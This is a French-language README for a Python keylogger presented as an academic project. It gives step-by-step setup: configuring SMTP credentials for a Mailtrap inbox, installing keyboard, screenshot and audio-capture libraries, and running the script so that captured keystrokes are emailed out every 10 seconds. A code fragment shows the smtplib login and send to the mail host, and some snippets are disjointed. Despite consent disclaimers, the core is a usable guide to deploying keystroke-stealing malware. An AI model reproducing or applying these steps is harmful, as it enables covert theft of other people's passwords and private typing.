 **DISCLAIMER**

**Ce projet a ete realise a des fins academiques. L'utilisation de logiciels tels qu'un keylogger doit toujours respecter les lois et l ethique.**

**Ne pas utiliser ce script a des fins d'enregistrement de frappes sur l'ordinateur d'autrui (ou sur le votre en ciblant un autre utilisateur) sans le consentement explicite de ce dernier.**

**Ne testez jamais un keylogger sur une machine ou vous n avez pas la permission explicite de le faire.**

**Veuillez utilisez ce script dans un environnement securise (par exemple, une machine virtuelle ou un ordinateur de test), controle et legalement acceptable.**

**Utilisez un compte SMTP dedie et ne partagez jamais vos informations personnelles.**




**Ce script permet d'enregistrer les frappes de clavier. Ces informations recueillies sont envoyees a une boite mail toutes les 10 secondes.**



**Etape 1 : Definir les identifiants SMTP**

**Le protocole SMTP (Simple Mail Transfer Protocol) est utilise pour envoyer des e-mails.**
**Un moyen mnemotechnique de retenir sa definition est : SMTP <=> Send mail to people**


**La premiere etape va donc etre de creer un compte mail dedie a la reception des informations enregistrees avec le keylogger.**

**Nous avons fait le choix du systeme de messagerie "Mail trap". Apres avoir cree un compte avec des donnees jetables, nous devons configurer les identifiants SMTP dans le script.**

**Ouvrez le fichier qui se nomme "Keylogger.py" dans un editeur de texte comme VSCode ou Notepad++.**

**Cherchez les lignes o "SMTP_USERNAME" et "SMTP_PASSWORD" sont mentionnes.**

**Remplacez-les par vos propres informations :**

**Dans cette section, nous allons definir l'adresse mail ainsi que le mot de passe mail :**

**finally:**
    **EMAIL_ADDRESS = "xxxxxx" #Remplacer par le "username" de Mailtrap**
    **EMAIL_PASSWORD = "xxxxxx" #Remplacer par le "password" de Mailtrap**

![information sur le mail](images/infos_mail.png)



**Dans cette section, nous allons entrer le numero du port SMTP, nous permettant d'envoyer les informations enregistres vers la boite de reception.**

m += message
	**with smtplib.SMTP("sandbox.smtp.mailtrap.io", 25) as server: # Mettre le numero de port defini dans les instructions Mailtrap**
        **server.login(email, password)**
        **server.sendmail(sender, receiver, message)**

Ainsi, le port numero 25 est defini. 

![information SMTP](images/smtp_screenshot.png)



**Etape 2 : Installer les dependances necessaires**

**Depuis le terminal, on va lancer la commande pip install -r requirements.txt**

**Cette commande permet d'installer toutes les bibliotheques listees dans le fichier requirements.txt**

**Ce fichier contient les lignes suivantes :**

**pynput==1.7.3 : controler et surveiller le clavier et la souris**
**pyscreenshot==3.1 : prendre des captures d'ecran**
**sounddevice==0.4.3 : gerer l'enregistrement de sons**
**Pillow==9.3.0 : bibliotheque de traitement d'images**



**Etape 3 : Executer le keylogger**

**Toujours depuis le terminal, on lance le script depuis le fichier keylogger.py***

**On lance la commande python keylogger.py**

**Le script commence alors a enregistrer les frappes de claviers**

**Les donnees sont envoyees toutes les 10 secondes dans la boite de reception.**




**En cas d'erreur :**

**Il pourrait y avoir une probleme avec le paquet pyscreenshot lors de son installation**

**L'erreur pourrait par exemple liee a une incompatibilite entre la version de pyscreenshot demandee (0.5.1) et votre environnement Python**

**Pour resoudre ce probleme**

**Modifier la ligne pyscreenshot==0.5.1**

**par**

**pyscreenshot==[derniere version en vigueur]**

**A la date du 15/11/2024, la derniere version utilisee pour pyscreenshot est : 3.1 ***

**Si vous rencontrez encore des erreurs, ajustez les versions jusqu'a ce que toutes soient compatibles avec votre version de Python**

**Vous pourriez par exemple avoir des problemes d'incompatibilite entre votre version de Python et la version de Pillow***



**Correspondances pillow et python : site internet : https://pillow.readthedocs.io/en/stable/installation/python-support.html**


![information Ssur les compatibilites entre pillow et python](images/correspondances_versions_pillow_python.png)


![information Ssur les compatibilites entre pillow et python](images/correspondances_versions_pillow_python1.png)


**Pour arreter le keylogger :**

**Il fonctionne en arriere-plan comme un processus. Afin de l'arreter, entrer dans le terminal : Ctrl + C**

**Si cela ne fonctionne pas, entrer dans le terminal :**

**tasklist | findstr python**

**Cela permettra d'afficher tous les processus Python qui sont actifs. Il suffit ensuite d'identifier le PID associe au script.**

**Pour l'arreter, entrer dans le terminal :**

**taskkill /PID [PID du script] /F**

**Enfin, si le keylogger enregistre les frappes de clavier dans un fichier temporaire, supprimer ce fichier.**
